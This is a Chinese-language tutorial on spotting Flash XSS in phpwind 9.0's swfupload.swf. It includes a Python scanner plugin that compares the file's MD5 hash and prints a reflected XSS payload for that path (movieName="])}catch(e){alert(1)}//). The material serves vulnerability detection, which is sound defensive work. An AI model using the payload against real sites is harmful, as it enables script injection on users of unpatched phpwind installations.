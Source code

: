 # Flash XSS
---

这一类的 XSS 主要是由于 Flash 与 Js 交互过程中产生的 XSS。

**检测方法**：校验 flash 的 hash 值（例如: md5）

#### 实例：

[phpwind 9.0 /res/js/dev/util_libs/swfupload/Flash/swfupload.swf XSS漏洞](http://wooyun.org/bugs/wooyun-2013-017731)

由于 Flash 文件是可以下载到客户端，所以直接下载该 swf 文件，校验其 hash。根据漏洞详情，可知该 swf 文件路径为: `/res/js/dev/util_libs/swfupload/Flash/swfupload.swf`。

**范例插件**：

[PHPWind 9.0 swfupload.swf Flash XSS](http://q.bugscan.net/t/763)

> 感谢插件作者: [xyw55](http://q.bugscan.net/u/xyw55)

```
#!/usr/bin/env python
# coding:utf-8
# @Date    : 2015-06-28
# @Author  : xyw55 (xyw5255@163.com)

'''
phpwind 9.0 /res/js/dev/util_libs/swfupload/Flash/swfupload.swf xss漏洞 POC
refer : http://wooyun.org/bugs/wooyun-2013-017731
'''
import md5


def assign(service, arg):
    if service == fingerprint.phpwind:
        return True, arg

def audit(arg):
    flash_md5 = "3a1c6cc728dddc258091a601f28a9c12"
    file_path = "/res/js/dev/util_libs/swfupload/Flash/swfupload.swf"
    url = arg
    verify_url = url + file_path

    code, head, res, redirect_url, log = hackhttp.http(verify_url)
    if code == 200:
        md5_value = md5.new(res).hexdigest()
        if md5_value in flash_md5:
            # info 中不要传 log
            security_info(url + ' phpwind Reflected XSS; plaload: /res/js/dev/util_libs/swfupload/Flash/swfupload.swf?movieName="])}catch(e){alert(1)}//')


if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.phpwind, 'http://www.example.com/')[1])

```